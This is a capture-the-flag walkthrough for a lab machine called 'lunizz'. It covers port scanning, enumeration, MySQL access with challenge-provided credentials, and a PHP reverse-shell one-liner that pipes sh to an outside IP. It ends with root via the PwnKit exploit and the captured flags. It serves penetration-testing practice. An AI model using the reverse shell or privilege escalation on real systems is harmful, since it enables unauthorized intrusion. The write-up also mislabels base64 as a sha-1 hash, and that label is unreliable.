

 

----

## Initial Foothold
**PortScanning**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ sudo python3 pymap.py -t luni.thm --all >> ports.txt

[+] Port scanning...
80/tcp   open  http
3306/tcp open  mysql
4444/tcp open  krb524
5000/tcp open  upnp
```
- Here we found some ports but the mysql seems very suspicious to me
- And the other two unknown ports `krb524` & `upnp` are also interesting. I will use them with the webserver


**Directory Enumeration**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ feroxbuster -u http://luni.thm/ >> ferox.txt

http://luni.thm/hidden 

http://luni.thm/hidden/uploads

http://luni.thm/whatever/

```
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ cat directory.txt
/instructions.txt     (Status: 200) [Size: 339]
/hidden               (Status: 301) [Size: 305] [--> http://luni.thm/hidden/]
/whatever             (Status: 301) [Size: 307] [--> http://luni.thm/whatever/]

```

## Web Server Enumeration
**Looking for File Upload Vuln**
- At `http://luni.thm/hidden/` 


- I thought There will be a file upload vulnerability , I might have but I couldn't break the validation

**Try to Break Command Executer Validation**

- At `http://luni.thm/whatever/` I found a command executer, I thought My command may work but its only reflecting the command I might be for the validation. It may restricted the command executer in its DataBase. And Look we also found that there is a mysql server is up and running.




**Checking with Other ports**

- At `http://luni.thm:4444/` I found a hash code , Lets break it!
-  `bGV0bWVpbg==:letmein` this is a sha-1 hash

- At `http://luni.thm:4444/robots.txt` We found another password
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ echo "ZXh0cmVtZWhhcmRyb290cGFzc3dvcmQ=" | base64 -d
extremehardrootpassword
```

- I think these are some wrong password because under the hash there is a hint of it

**Another Directory**


- It is saying us to login through mysql and its also provided the creds

**Username:`runcheck`**
**Password:`CTF_script_cave_changeme`**

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ mysql -u runcheck -h luni.thm -p --ssl=0
```

```sql

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+

MySQL [runornot]> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
1 row in set (0.169 sec)

MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    0 |
+------+
1 row in set (0.170 sec)

MySQL [runornot]> update runcheck set run = 1 ;
Query OK, 1 row affected (0.172 sec)
```

- I have changed the permission of DB of the Command Executer

- `ls`


- `whoami`


- `pwd`
- `/var/www/html/whatever`

## Getting Shell

**Adding a `php exec` shell**

```php
php -r '$sock=fsockopen("10.11.96.92",8080);exec("sh <&3 >&3 2>&3");'
```


- Adding a python3 `pty` to add a beautiful terminal


**Trying to find Vulnerability using `linpeas.sh`**
- Find many things out
```sh

╔══════════╣ Unexpected in root
/proct
/initrd.img.old
/vmlinuz.old
/swap.img
/initrd.img
/vmlinuz

```

**Lets try les.sh which finds linux exploits**

```sh
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```
#### Exploit Suggestion : [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
- Lets use the first one.

### PrivEsc
```sh
www-data@lunizz:/tmp/10.11.96.92:8080/CVE-2021-4034-main$ ./cve-2021-4034
# whoami
root
# cd /root
# ls
index.php  r00t.txt
# cat r00t.txt
thm{ad23b9c63602960371b50c7a697265db}
```
**user**
```sh
root@lunizz:/home# cd mason
root@lunizz:/home/mason# ls
user.txt
root@lunizz:/home/mason# ls -la
total 24
drwxr-x--- 2 mason mason 4096 Feb 28  2021 .
drwxr-xr-x 4 root  root  4096 Feb 28  2021 ..
-rw-r--r-- 1 mason mason  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mason mason 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 mason mason  807 Apr  4  2018 .profile
-rw-r----- 1 mason mason   38 Feb 28  2021 user.txt
root@lunizz:/home/mason# cat user.txt
thm{23cd53cbb37a37a74d4425b703d91883}
```